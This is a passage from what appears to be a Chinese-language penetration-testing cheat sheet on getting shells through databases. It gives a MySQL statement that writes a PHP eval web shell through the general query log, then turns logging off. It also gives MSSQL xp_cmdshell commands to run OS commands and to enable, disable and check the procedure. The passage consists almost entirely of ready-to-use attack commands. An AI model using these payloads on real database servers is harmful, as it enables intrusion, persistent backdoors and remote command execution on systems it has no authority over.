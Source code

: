    - #### 记录sql语句写马

     ```mysql
     select '<?php @eval($_POST['test']); ?>'
     ```

   - #### 关闭记录

     ```mysql
     set gobal general_log = off;
     ```

### Mssql数据库getshell

#### xp_cmdshell

1. #### 执行cmd命令

   ```mssql
   exec master..xp_cmdshell 'whoami';
   ```

2. #### 检查是否使用xp_cmdshell

   ```mssql
   exec sp_configure;
   ```

3. #### 启用xp_cmdshell

   ```mssql
   exec sp_configure 'show advanced options',1;
   --配置生效
   RECONFIGURE;
   --开启xp_cmdshell
   exec sp_configure 'xp_cmdshell',1;
   -- 配置生效
   RECONFIGURE;
   ```

4. #### 关闭xp_cmdshell

   ```mssql
   exec sp_configure 'show advanced options',1;
   --配置生效
   RECONFIGURE;
   --关闭xp_cmdshell
   exec sp_configure 'xp_cmdshell',0;
   --配置生效
   RECONFIGURE;
   ```

5. ####  检查是否存在 `xp_cmdshell` 存储过程

   ```mssql
   select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
   --返回 1 为存在，返回 0 为不存在。
   ```
